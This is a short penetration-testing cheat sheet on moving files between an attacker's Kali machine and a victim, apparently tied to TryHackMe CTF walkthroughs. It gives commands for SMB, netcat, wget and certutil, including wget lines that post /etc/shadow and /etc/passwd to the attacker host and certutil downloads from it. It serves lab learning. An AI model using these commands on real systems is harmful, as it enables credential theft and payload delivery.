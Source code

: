 # Transferring Files

## **SMB**

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

### Send File

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < user.jpg
```

## wget

### Download File

**Victim (receiving)**

```
wget http://$VICTIM/$FILE

#From non-strandard port
wget http://$VICTIM:81/$FILE
```

### Send File

**Examples**

[wgel-ctf.md](../walkthroughs/tryhackme/wgel-ctf.md "mention")

**Kali(receiving)**

```
nc -lvnp 4444
```

**Victim(sending)**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
sudo -u root /usr/bin/wget --post-file=/etc/passwd $KALI:4444
```



## **certutil**

**Example**

[retro.md](../walkthroughs/tryhackme/retro.md "mention")

**Victim**&#x20;

```
certutil -urlcache -f http://$KALI:81/$FILE $FILE
```



